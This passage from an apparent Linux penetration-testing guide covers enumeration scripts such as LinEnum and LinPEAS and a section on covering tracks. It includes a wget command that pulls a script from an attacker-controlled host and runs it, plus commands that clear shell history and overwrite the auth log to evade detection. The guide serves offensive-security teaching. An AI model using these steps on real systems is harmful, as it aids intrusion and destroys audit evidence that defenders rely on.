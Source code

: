 Enumeration scripts automate much of the grunt work involved in identifying misconfigurations:

1. **LinEnum**:
   - A popular script that scans for kernel exploits, SUID files, running services, etc.
   - **Download and Use**:
     ```bash
     wget http://<Your-IP>:8080/LinEnum.sh
     chmod +x LinEnum.sh
     ./LinEnum.sh
     ```

2. **Other Useful Scripts**:
   - [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS): Advanced enumeration script.
   - [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester): Identifies possible exploits based on the kernel version.

---

## 9. Covering Your Tracks

After a successful exploit, covering your tracks is essential to avoid detection:

- **Log Locations to Monitor**:
  - `/var/log/auth.log` – SSH and authentication logs.
  - `/var/log/syslog` – System events and potential firewall alerts.
  - Service-specific logs (e.g., Apache access logs `/var/log/apache2/access.log`).

- **Remove Evidence**:
  - **Clear Shell History**:
    ```bash
    history -c
    ```
  - **Overwrite Log Entries** (Requires root):
    ```bash
    echo "" > /var/log/auth.log
    ```

